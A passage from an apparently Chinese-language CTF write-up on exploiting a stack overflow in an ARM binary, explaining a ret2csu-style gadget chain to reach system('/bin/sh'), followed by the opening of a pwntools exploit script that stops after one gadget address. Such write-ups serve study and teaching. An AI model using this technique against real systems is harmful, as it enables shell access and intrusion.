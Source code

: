 简单的栈溢出，这里 buf 开辟了 3 字节的缓冲区，但是 read() 读取的时候写入 256 字节的内容

这里顺便说一下为什么栈溢出这么多字节，是因为我们在 arm 架构中的 gadget 中是没有 x86 架构那种的 pop,ret 的，所以需要用类似 x86 架构下的 ret2csu 打法多次调用寄存器

我理解的泄露 ret2csu 的思路

[![](assets/1701612270-9393f3e93b9bc25f314c773cb2f244f0.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230723200307-e31725c6-2950-1.png)

通过不断调用这一段 gadget，从而调用真正的 write,read，从而写入我们的 system，以及 binsh 字符串，从而 getshell

[![](assets/1701612270-61b9b16dfa72dc8de001ec97317e98aa.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230723200313-e6ae6a00-2950-1.png)

exp:

```plain
import os
import sys
import time
from pwn import *
from ctypes import *

p = process(["qemu-arm","-g", "1234","-L", "/usr/arm-linux-gnueabi/", "./pwn"])
p = process(['qemu-arm','-L','/usr/arm-linux-gnueabi/','./pwn'])
context.log_level='debug'
context.arch='arm'

elf = ELF('./pwn')
libc=ELF('/usr/arm-linux-gnueabi/lib/libc.so.6')

s       = lambda data               :p.send(str(data))
sa      = lambda delim,data         :p.sendafter(str(delim), str(data))
sl      = lambda data               :p.sendline(str(data))
sla     = lambda delim,data         :p.sendlineafter(str(delim), str(data))
r       = lambda num                :p.recv(num)
ru      = lambda delims, drop=True  :p.recvuntil(delims, drop)
itr     = lambda                    :p.interactive()
uu32    = lambda data               :u32(data.ljust(4,b'\x00'))
uu64    = lambda data               :u64(data.ljust(8,b'\x00'))
leak    = lambda name,addr          :log.success('{} = {:#x}'.format(name, addr))
l64     = lambda      :u64(p.recvuntil("\x7f")[-6:].ljust(8,b"\x00"))
l32     = lambda      :u32(p.recvuntil("\xf7")[-4:].ljust(4,b"\x00"))
context.terminal = ['gnome-terminal','-x','sh','-c']

"""
0x000104e0 : mov r2, sb ; mov r1, r8 ; mov r0, r7 ; ldr r3, [r5], #4 ; add r4, r4, #1 ; blx r3
```